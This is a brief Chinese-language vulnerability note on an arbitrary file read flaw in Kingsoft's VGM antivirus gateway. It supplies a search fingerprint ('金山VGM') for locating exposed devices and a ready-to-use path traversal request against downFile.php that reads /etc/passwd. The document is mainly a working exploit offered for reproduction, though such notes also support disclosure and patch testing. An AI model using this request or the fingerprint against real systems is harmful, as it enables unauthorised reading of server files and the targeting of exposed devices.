 # 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
金山 VGM防毒墙
```

## 网络测绘

```
"金山VGM"
```

## 漏洞复现

登录页面

![image-20230314090419140](images/image-20230314090419140.png)

验证POC

```
/downFile.php?filename=../../../../etc/passwd
```

![image-20230314090430563](images/image-20230314090430563.png)